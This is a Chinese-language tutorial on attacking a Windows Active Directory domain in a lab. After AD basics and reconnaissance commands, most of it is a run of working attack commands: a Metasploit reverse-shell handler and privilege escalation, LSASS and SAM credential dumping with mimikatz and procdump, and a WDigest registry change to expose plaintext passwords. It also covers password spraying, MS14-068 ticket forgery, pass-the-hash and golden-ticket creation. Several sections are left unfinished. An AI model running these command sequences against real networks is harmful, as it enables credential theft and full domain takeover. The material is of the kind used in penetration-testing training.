


# windowsAD域渗透

## 一 环境搭建

### 1.1 AD域介绍

Active Directory通过维护一个集中式数据库来实现集中管理，该数据库存储了有关用户、计算机、策略、权限等的所有信息。例如，IT 团队可以连接到该数据库并为新来的同事创建新用户，并为他们分配权限，只允许他们读取其部门特定服务器的指定目录中的文件，然后，当其中一名同事尝试登录到Active Directory网络内的一台计算机时，该计算机会查询中央数据库以检查该同事的用户是否存在以及密码是否正确。这样，用户可以登录到公司的任何计算机（如果他们有权限），允许员工仅使用一个用户在所有公司计算机（可以是工作站、数据库服务器、文件服务器、等等）.

 域

```
我们所说的 Active Directory 网络就是通常所说的域。域是在同一网络中连接的计算机，它们共享一个 Active Directory 数据库，该数据库由域的中央服务器管理，称为域控制器。
```

 域名

```
每个域都有一个 DNS。在许多公司中，域名跟他们的网站相同，例如`fsec.com`，有的公司则有不同的内部域名，例如`fsec.domain`。
除了DNS外，每个域还可以通过 NetBIOS 名称来识别。例如，域`fsec.com`可以具有NetBIOS 名称 `fsec`。可以看到在登录操作中使用的 NetBIOS 名称，其中用户标识为类似`fsec\Administrator`，其中第一部分是 NetBIOS 名称，第二部分是用户名。
最后，一个域可以通过它的SID（安全标识符）来识别。SID 被程序（Windo
ws API）使用的比用户多。
```


域森林

```
域森林是一组或多个不形成连续名称空间的域树。
使用 DNS还是比较有用的，因为它可以创建用于管理目的的子域。例如，一家公司可以有一个名为的根域fsec.com(也就是林)，然后是不同大部门或者分公司的子域，例如fsarmsec.fsec.com或it.fsec.com。
AD域提供了多种组织基础结构的方法，因此公司使用子域的方式各不相同，一些公司为部门创建子域，而另一些公司则将它们用于分公司。
一般域森林结构如下，也叫域树：
            fsec.com
                |
        .-------'--------.
        |                |
        |                |
 farmsec.fsec.com it.fsec.com
        | 
        |
        |
 web.farmsec.fsec.com
 
这种域树称为森林。森林的名称与树的根域的名称相同。
在域森林中，每个域都有自己的数据库和域控制器。但是，林中域的用户也可以访问林中的其他域 。一个域可以是自行配置的，不需要与其他域交互，从安全角度来看它也不是独立的，因为默认一个域的用户可以访问同一森林中其他域的资源）。但是一个林的用户默认是不能访问其他林的资源的，所以能够提供安全隔离的逻辑结构就是林。
```

 域信任

```
用户可以访问同一林中的其他域，因为它们通过信任连接在一起。
域信任就是从一个域到另一个域的连接，不是物理网络连接，而是一种认证/授权连接。可以访问网络上其他域中的计算机，但无法使用该域的用户登录其它域。这就是域信任允许做的事情。
域信任是一种定向关系，其中一方是信任方，另一方是受信任方。当这个链接建立后，信任域的用户就可以访问信任域的资源。
信任方向与访问方向相反。

              信任
  域A ----------------------> 域B
       传出 传入
       出站入站
             使用权
  域A <-------------------- 域B
  
  
  
当域信任通过当前的域定向时，称为入站或传入信任。**传入信任允许您域的用户访问其他域**，另一方面，有从当前域到另一个域的出站或传出信任。因此其他域的用户可以访问当前域。
当两个域同时通过传入和传出信任连接时，那么这就叫双向信任。

此外还有一个叫做信任传递，域信任可以是传递性的也可以是非传递性的，非传递信任只能由信任的双方使用，即信任方和受信任方。而传递信任可以充当桥梁并用于与由传递信任连接的域连接的第三方域。
比如：如果域A和域B之间的信任是可传递的，那么域C的用户可以通过遍历这两个信任来访问域A。如果`域A --> 域B`的信任是不可传递的，则域C用户无法访问域A，但域B的用户可以。  
           信任                       信任
  域A ------------------> 域B --------------------> 域C
                    访问权限
      <-------------------- <--------------------
      
      
在域森林中，为了允许从任何域访问任何其他域，所有父域和子域都要建立双向信任传递。
当我们使用域信任时，我们域的域控制器与目标域（或中间域）的域控制器之间存在通信，通信的方式因所使用的协议（可能是 NTLM、Kerberos 等）而异，但无论如何，域控制器需要共享密钥以确保通信安全。此密钥称为信任密钥，它是在建立信任时创建的。
创建信任时，会在域数据库中创建一个信任帐户，它是一个用户（名称以$结尾）。然后将信任密钥作为信任用户的密码进行存储（在NT 哈希和Kerberos 密钥中）。      
```


### 1.2 环境介绍

| 主机名 | IP地址       | 系统版本     | 域名    | 功能       |
| ------ | ------------ | ------------ | ------- | ---------- |
| 2022-1 | 172.16.0.201 | windows 2022 | fsec.io | AD域控     |
| 2022-2 | 172.16.0.202 | windows 2022 | fsec.io | 文件服务器 |
| 10-1   | 172.16.0.203 | windows 10   | fsec.io | 客户机     |
| 2008-1 | 172.16.0.101 | windows 2008 | fsec.cn | AD域控     |
| 2008-2 | 172.16.0.102 | windows 2008 | fsec.cn | 文件服务器 |
| 7-1    | 172.16.0.103 | windows 7    | fsec.cn | 客户机     |

  建立环境的大致步骤如下：

1. 安装操作系统后，配置IP地址及网络的相关信息，DNS信息需要指定至各自域控。并开启远程访问
2. 域控主机添加AD域控服务，并建立好域名等信息
3. 其他主机加入域

4. 配置fsec.io与fsec.cn的双向信任
5. 建立域用户（userio/usercn）

   6.文件服务器主机建立文件共享服务


## 二 基础信息搜集

当我们通过任意的手段进入到内网时，我们对其内网的架构一无所知。此时在这种情况下，我们则需要进行对其整个所处环境进行分析。
此时我们需要进行的则是信息收集，此处与我们在互联网渗透是一个道理，信息收集的越多越全则对我们进行内网渗透时则越方便。  
假设我们通过钓鱼手段，获取到一台pc用户机的控制权限，那么我们第一步需要进行的则是信息收集。

### 2.1 判断主机所在环境

通常我们获取到一台PC机时，第一时间或去判断该机器所处的网络，目前正在与其通信的网络，是否加域等等。
根据不同情况进行进一步收集以及渗透。

一般windows机器，会有两种环境:

```
1.已加域的机器（域环境） 
2.未加域机器，处于单机版（工作组环境）
```

信息搜集的相关指令：

| 指令                             | 作用                       | 细节点                                                       |
| -------------------------------- | -------------------------- | ------------------------------------------------------------ |
| ipconfig /all                    | 查看当前机器网卡以及ip信息 | 主DNS后缀中会显示域名                                        |
| nslookup                         | 使用nslookup解析域名       | 查看域名解析出来的地址是否是与dns服务器是否一致              |
| systeminfo                       | 查看本机系统详细信息       | 在域这一列显示域名                                           |
| net config workstation           | 查看当前登录域及域用户     | 域环境下的机器，那么在工作站域这一列显示的则是域名           |
| net time /domain                 | 查看域内时间               |                                                              |
| whoami /user                     | 当前用户权限               |                                                              |
| whoami /priv                     | 当前用户权限               | 不同的用户拥有不同的权限                                     |
| echo %PROCESSOR_ARCHITECTURE%    | 判断该系统体系结构         |                                                              |
| netstat -ano                     | 网络连接以及端口开放情况   |                                                              |
| route print                      | 路由表判断网络情况         |                                                              |
| arp -a                           | ARP表判断网络情况          |                                                              |
| hostname                         | 查看当前机器名             |                                                              |
| wmic product Get name,version    | 查看当前安装的程序及版本   |                                                              |
| quser                            | 查看在线用户               |                                                              |
| tasklist                         | 查看当前进程列表           |                                                              |
| tasklist /v                      | 查看进程对应的用户身份     |                                                              |
| tasklist /svc                    | 查看是否存在杀软           | WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List （平替） |
| wmic startup get command,caption | 查看启动程序信息           | 通过查看启动程序信息可以知道当前机器开机的时候会运行哪些软件，这可以启动劫持。 |
| schtasks /query /fo list /v      | 查看计划任务               |                                                              |
| netsh firewall show config       | 查看防火墙配置             | 查看防火墙配置判断当前机器是否开了防火墙，以及防火墙配置信息。 |


### 2.2 域内信息收集

在攻击 AD域或任意系统时，收集有助于定义谁、什么、何时和何地的有用信息至关重要。

2.2.1 使用nslookup

利用nslookup定位域控：

```
nslookup -type=srv _ldap._tcp.pdc._msdcs.fsec.com
```

定位域控：

```
nslookup -type=srv _ldap._tcp.dc._msdcs.fsec.com
```

其它定位域控方法：

```
nslookup -type=srv _kerberos._tcp.fsec.com
nslookup -type=srv _kpasswd._tcp.fsec.com
nslookup -type=srv _ldap._tcp.fsec.com
```


2.2.2 端口扫描

在AD域中，可以很容易地发现域控制器，具体取决于它们开启的服务。每个服务通常都可以访问特定的 TCP 和/或 UDP 端口。


使用nmap进行端口扫描：

```
nmap -sS -n --open -p 88,389 172.16.0.0/24
```


2.2.3域内的相关命令

| 指令                                               | 作用                     | 细节点                                             |
| -------------------------------------------------- | ------------------------ | -------------------------------------------------- |
| nltest /domain_trusts /all_trusts /v               | 查询域信任列表           | 可以查询到有多少个域以及域名                       |
| nltest /dsgetdc:fsec                               | 查询域控以及对应ip       | 快速定位域控机器                                   |
| net user /do                                       | 获取域用户列表           | 获取到域内所有用户，从此判断域的大小               |
| net group "domain admins" /domain                  | 获取域管理员列表         | 快速定位域管                                       |
| net localgroup administrators /domain              | 登录本机的域管理员       | 该条命令会显示本地管理员以及域管理员，需要区别一下 |
| net user xxx /domain                               | 查询某个域用户的详细信息 |                                                    |
| net group /domain                                  | 查询域内用户组列表       | 有的域内可能会有部分的分组，比如信息组，财务组     |
| net group caiwu /domain                            | 查询域内某个组下用户     | (查询caiwu这个用户组下的用户)                      |
| net accounts /domain                               | 查询域密码策略           |                                                    |
| net group "domain controllers" /domain             | 查询所有域控列表         | 想要知道域控的ip是多少时，那么直接ping机器名即可   |
| net view  \\\ net group "domain computers" /domain | 查询域内机器列表         |                                                    |


2.2.4 查找机器上保存的敏感密码以及敏感文件

根据文件名称搜索:

```
dir /b /s user.*,pass.*,username.*,password.*,config.*
#利用dir命令查找当前目录下文件名称中包含（user.,pass.,username.,password.,config.）关键字的文件。

for /r D:\ %i in (user.*,pass.*,username.*,password.*,config.*) do @echo %i
#利用for循环命令查找指定目录下文件名称中包含（user.,pass.,username.,password.,config.关键字的文件。

findstr /c:"user" /c:"pass" /c:"username" /c:"password" /si *.txt    (不建议*.*，可自行指定后缀名进行查找)
#利用findstr命令查找当前目录下的⽂件⾥有没有 user,pass,username,password 等字段内容

```


### 2.3 自动化搜集工具

2.3.1 ADRecon

项目地址：https://github.com/adrecon/ADRecon

PowerShell中有四种不同类型的执行策略：

- 受限：在此策略中，不会执行任何脚本。
- RemoteSigned：在此策略中，仅运行那些脚本，这些脚本是从Internet下载的，并且必须由受信任的发布者签名。
- 不受限制：Windows PowerShell的所有脚本均已运行。
- AllSigned：仅可以运行由受信任的发布者签名的那些脚本。

由于Windows PowerShell的默认执行策略受到限制，因此我们无法运行任何脚本，除非对脚本进行更改。 首先，我们使用以下命令将执行策略设置为Unrestricted以执行脚本。

```
Set-ExecutionPolicy Unrestricted
##powershell的终端需要使用管理权启动
```

使用ADRecon进行信息搜集

```
#To run ADRecon on a domain member host.
.\ADRecon.ps1  or  powershell -file ADRecon.ps1

To run ADRecon on a domain member host as a different user.
.\ADRecon.ps1 -DomainController <IP or FQDN> -Credential <domain\username>

```


完成后会生成csv文件。


2.3.2 Snaffler

https://github.com/SnaffCon/Snaffler

运行此工具需要.net4，为此在2022-2的机器上完成的操作(需要关闭杀软)。

```
snaffler.exe -s -o 11.log
```


2.3.3 BloodHound

https://github.com/BloodHoundAD/BloodHound

```
apt-get install bloodhound
neo4j console
http://localhost:7474/browser/

```


随后命令启动bloodhound

```
bloodhound
```


随后在域控内的主机中，使用SharpHound进行信息搜集

https://github.com/BloodHoundAD/SharpHound


将生成的压缩包xxxx_BloodHound.zip上传至bloodhound

```
upload Data -->选择压缩包
```


剩下的内容即可在里面查看相关的数据。


## 三 口令攻击

从7-1主机上线msfshell后（普通域用户），提权至system权限

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 172.16.0.2
set lport 4444
exploit
run post/multi/recon/local_exploit_suggester
background
use exploit/windows/local/ms16_014_wmi_recv_notif
set session 1
exploit
```


### 3.1 密码获取

在windows系统里有一个SAM(安全账户管理器)文件，里面存着所有本地用户的密码hash。
SAM文件在磁盘中的位置在C:\windows\system32\config\sam
主要⽤于 Windows 本地⽤户登录验证，但是因为安全问题，由于所有本地账户的密码 hash 都使⽤的是同⼀个
SYSKEY 进⾏加密，所以我们只需要拿到 SYSKEY 就可以把所有本地⽤户的密码和 hash 都提取出来。
⼀般在⼀些⽼版本的机器：Windows Server 2003、Windows Server 2008、Windows 7 都能直接获取到明⽂密码
⽽⼀些⾼版本的机器：Windows Server 2012、Windows 2016、Windows 10 就不能直接获取到明⽂密码，只能通过其他⼿段。
当我们将权限提升到管理员或者system时，此时我们就可以做提取明文密码以及hash的操作了。

lsass.exe是Windows系统的安全机制，主要用于本地安全和登陆策略，通常在我们登陆系统时输入密码后，密码便会存贮在lsass.exe内存中，经过wdigest和tspkg两个模块调用后，对其使用可逆的算法进行加密并存储在内存中，而通过工具对lsass.exe逆算获取到明文密码。


3.1.1 使用msf获取明文密码(win2008系统以下)

在msf中，如果获取到主机的system权限后，直接在meterpreter中执行相关指令即可直接尝试读取明文密码

```
load kiwi
creds_tspkg
```


3.1.2 使用mimikatz获取明文密码(win2008系统以下)

Mimikatz 是一款功能强大的后渗透工具，最具出名的功能就是从 lsass.exe 中抓取密码，当然它还可以⽤作提权、进程注入，读取进程内存，伪造票据等一些操作。

项目地址：https://github.com/gentilkiwi/mimikatz

如果懒得下载最新版，kali中直接提供，直接访问/usr/share/windows-resources/mimikatz路径即可。


直接上传mimikatz至目标主机并使用。

```
upload /usr/share/windows-resources/mimikatz/x64 .
shell
chcp 65001
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full"
```


3.1.3 通过注册表获取hash后进行解密

在目标机器上获取到两个文件，然后使用mimikatz获取hash后，再进行解密.

先把当前系统注册表 SAM、SYSTEM 获取：

```
reg save HKLM\SYSTEM Sys.hiv
reg save HKLM\SAM Sam.hiv
mimikatz "lsadump::sam /sam:Sam.hiv /system:Sys.hiv"
```


ps:能够解密的前提是密码的在彩虹表当中。


3.1.4 通过Procdump抓取lsass中的明文密码

Procdump 是微软官⽅发布的⼯具，使⽤该⼯具可以把lsass的内存dump下来，此方法可绕过防护软件
Procdump下载地址：https://learn.microsoft.com/zh-cn/sysinternals/downloads/procdump
使用Procdump把lsass的内存dump下来

```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```


使用mimikatz读取密码

```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full"
```


在低版本中我们可以通过此类方法获取到明文密码及hash，但是在更高版本中就无法通过这些方法获取到。
在win10以及win2012系统及以上，默认情况下已禁⽤在内存缓存中存系统用户明文密码，再使用mimikatz获取时，在password字段显示null，所以在更高版本的操作系统时，需要利用其它方法。


3.1.5 win2012以上系统获取明文及hash

虽然在win10以及win2012系统及以上，默认情况下已禁⽤在内存缓存中存系统⽤户明⽂密码，但是当我们获取到了管理员权限后，我们可以通过修改注册表的方式来抓取明文，但是这个方法需要用户重新登录才能够抓取。
系统默认是没有我们需要的那个值的，我们需要添加。

关于win10的提权可尝试使用msf的windows/local/cve_2020_17136模块。


可先自行查看是否存在：

```
reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential
```


此时我们需要进行添加,添加完之后再进行查看，即可看到成功添加。

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```


这样我们需要等目标机器重启或者注销，重新登录后就可以抓取到目标机器的明文密码了。


使用mimikatz的方式也同样的逻辑，就不在赘述。但是在实际的操作中，需要考虑更多的因素，诸如：

```
1.持久化需要前置
2.修改主机的文件是否合适
```


### 3.2 密码喷洒攻击

3.2.1 超级弱口令工具对域内进行密码喷洒


3.3.3 CrackMapExec 对域内进行密码喷洒

CrackMapExec（CME）是一款域内后渗透利用工具，使用方法比较多，此处只演示密码喷洒功能。在 Kali当中默认已经安装好。

```
##探测smb服务的开发情况
crackmapexec smb 172.16.0.0/24

##指定用户名及密码进行喷洒
crackmapexec smb 172.16.0.0/24 -u user.io -p 'Fsec.io!'  (对单个用户单个密码)
crackmapexec smb 192.168.11.228-245 -u ad-user -p 'XCs@2215.' 'Fsec.io!' （对单个用户多个密码）
crackmapexec smb 192.168.11.228-245 -u ad-user hhw -p 'XCs@2215.' '123.bmk!!' （对多个用户多个）
crackmapexec smb 192.168.11.110-228 -u ~/name.txt -p ~/pass.txt     （指定文件）
```


指定用户名及哈希进行喷洒：之前我们读取到一个无法解密的NTLM的值，可以通过密文的方式进行碰撞。


```
crackmapexec smb 172.16.0.0/24 -u user.io -H '78756282d1fcb13c8f94a368ab24235c'  (指定用户名及ntlm哈希)
crackmapexec smb 172.16.0.0/24 -u ~/name.txt -H ~/ntlmhash.txt  (指定用户名文件及ntlm哈希文件)
```


3.3.6 metasploit对域内进⾏密码喷洒

可以使用scanner/smb/smb_login模块进行尝试。




其他类似的工具还有crack、kerbrute、Hydra，就自己琢磨吧：）


## 四 AD通用漏洞

### 4.1 CVE-2014-6324 (ms14-068)

漏洞原理：

```
Kerberos 域用户提权漏洞（MS14-068，CVE-2014-6324），所有 Windows 服务器都会受到该漏洞影响。包括 Windows Server 2003、Windows Server 2008、Windows Server 2008 R2、Windows Server 2012 和 Windows Server 2012 R2。
如果攻击者获取了域内一台计算机的 shell 权限，同时知道该域用户的用户名、SID、密码，如果存在该漏洞即可获取域管理员权限。
在kerberos 协议中 ——> Kerberos 认证，Client去访问Server，需要知道是否具有访问权限。所以微软在KRB_AS_REP中的TGT中增加了Client的PAC（特权属性证书），也就是Client的权限，包括Client的User的SID、Group的SID。ms14-068 漏洞就是 经过身份验证的Client在TGT中伪造高权限的PAC。该漏洞允许任何一个域普通用户，将自己提升至域管理员权限。微软给出的补丁号kb3011780。
```

前提条件：

```
域控没有打MS14-068的补丁(KB3011780)
拿下一台加入域的计算机
有这台域内计算机的域用户密码和Sid
```

利用过程：

获取到win7的权限后，搜集相关信息(命令片段)

```
run post/multi/recon/local_exploit_suggester
use exploit/windows/local/ms16_014_wmi_recv_notif
creds_all
ipconfig/all
whoami /all
nslookup -type=srv _ldap._tcp.pdc._msdcs.fsec.com
net user /domain
```


梳理得到的信息：

```
用户名 usercn
密码   Fsec.io!
SID   S-1-5-21-1072000545-2571014027-4204925057-1105
域名   fsec.cn
域控   172.16.0.101  2008-1.fsec.cn
```

生成对应的票据

```
MS14-068.exe -u usercn@fsec.cn -p Fsec.io! -s S-1-5-21-1072000545-2571014027-4204925057-1105 -d 2008-1.fsec.cn
```


```
export KRB5CCNAME=/root/TGT_usercn@fsec.cn.ccache
python3 psexec.py -k -n fsec.cn/usercn@2008-1 cmd  ###执行前把kali的DNS指向到AD域的DNS
```


### 4.2 CVE-2020-1472

漏洞原理：

```
CVE-2020-1472 是一个Windows 域控中严重的远程权限提升漏洞。它是因为微软在Netlogon 协议中没有正确使用加密算法而导致的漏洞。由于微软在进行 AES 加密运算过程中，使用了 AES-CFB8 模式并且错误的将 IV 设置为全零，这使得攻击者在明文(client challenge)、IV 等要素可控的情况下，存在较高概率使得产生的密文为全零。
```

懒得写了：）自己查百度吧

### 4.3 CVE-2021-42287&42278

懒得写了：）自己查百度吧


### 4.4 CVE-2019-1040

懒得写了：）自己查百度吧


## 五 hash攻击

### 5.1 Kerberos 协议

Kerberos 是一种由 MIT（麻省理工大学）提出的一种网络身份验证协议。它旨在通过使用密钥加密技术为客户端/服务器应用程序提供强身份验证。
Kerberos 是一种网络认证协议，其设计目标是通过密钥系统为客户机 /服务器应用程序提供强大的认证服务。该认证过程的实现不依赖于主机操作系统的认证，无需基于主机地址的信任，不要求网络上所有主机的物理安全，并假定网络上传送的数据包可以被任意地读取、修改和插入数据。在以上情况下， Kerberos作为一 种可信任的第三方认证服务，是通过传统的密码技术(如:共享密钥)执行认证服务的。

Kerberos的三大要素:

```
    Client
    Server
    KDC(Key Distribution Center) = DC(Domain Controller)
```


Kerberos认证协议的基础概念：

```
票据（Ticket）：是网络对象互相访问的凭证。
TGT（Ticket Granting Ticket）：入场券，通过入场券能够获得票据，是一种临时凭证的存在。
```


KDC负责管理票据、认证票据、分发票据，但是KDC不是一个独立的服务，它由以下服务组成：

```
    Authentication Service:  为client生成TGT的服务(简称AS)
    Ticket Granting Service: 为client生成某个服务的ticket(简称TGS)
```

如何想了解的更为细致可参阅帖子：https://blog.csdn.net/wy_97/article/details/87649262


### 5.2 hash传递攻击

哈希传递（Pass The Hash）即PTH，也是内网渗透中较常见的一个术语，就是通过传递Windwos 本地账户或者域用户的hash值，达到控制其他服务器的目的，该⽅法通过找到与账户相关的密码 Hash（通常是 NTLM Hash）来进⾏攻击。在域环境中，⽤户登录计算机时使⽤的⼤概都是域账号，⼤量计算机在安装时会使⽤相同的本地管理员账户密码，因此如果计算机的本地管理员账户和密码相同的话，攻击者就能使⽤哈希传递攻击的⽅法登录内⽹中的其他计算机。
适用于无法获取到明文，且哈希值无法解密

```
creds_all

use exploit/windows/smb/ms17_010_psexec
set payload windows/x64/meterpreter/reverse_tcp
set rhosts 172.16.0.102
set smbuser usercn
set smbdomain fsec.cn
set smbpass 345fa001d263fb97695109ab020e401c:78756282d1fcb13c8f94a368ab24235c
exploit

方式一：
hashdump
pth-winexe -U fsec.cn/administrator%aad3b435b51404eeaad3b435b51404ee:78756282d1fcb13c8f94a368ab24235c //172.16.0.101 cmd

方式二：
use exploit/windows/smb/psexec
set smbuser administrator
set smbpass aad3b435b51404eeaad3b435b51404ee:78756282d1fcb13c8f94a368ab24235c
set smbdomain fsec.cn
set rhosts 172.16.0.101
exploit

```

坑：跨域使用hash传递，无法成功。怀疑问题出自2008与2022的smb版本不匹配。


### 5.3 黄金票据与白银票据

黄金票据：
https://www.cnblogs.com/backlion/p/8127868.html
白银票据：
https://blog.csdn.net/weixin_30532987/article/details/96203552

简单来说，黄金票据具有所有服务的权限，而白银票据只有单一服务的权限。

Kerberos黄金票据是有效的TGT Kerberos票据，因为它是由域Kerberos帐户（KRBTGT）加密和签名的  。TGT仅用于向域控制器上的KDC服务证明用户已被其他域控制器认证。TGT被KRBTGT密码散列加密并且可以被域中的任何KDC服务解密的。
黄金票据的条件要求：

```
1.域名称            
2.域的SID值      
3.域的KRBTGT账户NTLM密码哈希
4.伪造用户名
一旦攻击者拥有管理员访问域控制器的权限，就可以使用Mimikatz来提取KRBTGT帐户密码哈希值。
```

相关的信息搜集：

```
1.域名称     ipconfig/all   --->fsec.cn
2.域的SID值   wmic useraccount get name,sid --->
         Administrator  S-1-5-21-4260809481-1314229568-1029525523-500
3.域的KRBTGT账户NTLM密码哈希 run windows/gather/smart_hashdump  --->
        krbtgt:502:aad3b435b51404eeaad3b435b51404ee:72a43883e0149a585685b648399c6d40:::
4.伪造用户名   farmsec
```


使用metasploit制作票据：

```
golden_ticket_create -d fsec.cn -k 72a43883e0149a585685b648399c6d40 -u farmsec -s S-1-5-21-4260809481-1314229568-1029525523 -t /root/golden

将票据导入至域控中：
kerberos_ticket_purge
kerberos_ticket_use /root/2
列出票据：
kerberos_ticket_list
```


```
dir 确认权限
```


使用impacket进行测试：（测试前将kali指向至AD域的DNS）

```
python3 ticketer.py -nthash 72a43883e0149a585685b648399c6d40 -domain-sid S-1-5-21-4260809481-1314229568-1029525523 -domain fsec.cn administrator
```



```
export KRB5CCNAME=test1.ccache
python3 psexec.py -k -n fsec.cn/test1@2008-1 cmd
```


## 六 其他攻击

约束委派与非约束委派

ipc$

ntds.dit 包括卷影复制 ...


